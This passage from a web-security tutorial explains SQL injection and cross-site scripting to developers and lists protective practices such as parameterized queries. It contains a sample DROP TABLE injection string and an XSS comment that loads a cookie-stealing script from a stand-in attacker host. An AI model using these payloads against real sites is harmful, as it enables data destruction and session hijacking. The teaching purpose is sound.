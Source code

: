 Now, imagine that the aforementioned butthead submits some evil data via your login form. Maybe she enters `Username` in the `username` form-field, and then for the `password` she enters `"Password';DROP TABLE users"`.

If your SQL query API allows for multiple statements to be executed in a single call, then your SQL server will execute something similar to the following:

<script src="https://gist.github.com/Cfeusier/daade1fb33eca133e4f1.js"></script>

Goodbye user data. The `';DROP TABLE users'` string was the **injected** SQL code, which was unknowingly executed by the SQL server, resulting in the loss of all your user data.

Please take the following away from this section &mdash; ***SQL injection flaws occur when a SQL database server interacts with the database using statements composed out of data from an external source***.

But, you need to dynamically query your database, so how do you avoid SQL injection exploits? Here are some good guidelines. Note, these topics will be expounded upon further in the section below covering protection mechanisms.

1. always write SQL statements that use parameters instead of direct variable evaluations
1. (optional) use an ORM that generates parameterized statements
1. validate input data using well-tested regular expressions
1. escape characters that have special meaning within SQL

I will describe the above protection techniques in detail after we have covered all of the different exploits. Let us move on to another injection exploit called **XSS**, which stands for *cross-site script injection*.

### XSS - Cross-Site Script Injection

**XSS**, **cross-site script injection**, or **cross-site scripting**, is an exploit that injects a script into a web document. When other users view the compromised web document, the script is executed by the client environment with the same access to resources as the surrounding web document. With the granted resource-access, the malicious script can run amok with private content, session cookies, localStorage data, and more ([source]()).

XSS comes down to getting a script into some web document that will be sent to a client web-browser; the script gets treated as though it is delivered from a trusted source, so it can access certain privileged information in the environment. Usually, the script will capture the privileged information and send it to a server of its choosing for later use.

Here is the usual example of an XSS exploit, as described by [Wikipedia](http://en.wikipedia.org/wiki/Cross-site_scripting) (slightly modified):

- Hacker observes that your website contains an XSS vulnerability &mdash; the comments section will display whatever is typed for a new comment, even if the comment text contains HTML tags, so all script tags are executed
- Hacker posts a new comment with the following text:

    > I love the puppies in this story! They're so cute!`<script src="http://hackityhack.com/authstealer.js">`

- The `authstealer.js` script accesses the current user's authorization cookie and sends it to a secret server for storage
- Now, when anyone visits the webpage with Hacker's comment, the `authstealer.js` script will run and steal the current user's authorization cookie data
- Hacker can now impersonate visitors with valid accounts on your website &mdash; e.g., Hacker could login as a user and steal the credit card information stored in the account profile of the impersonated user
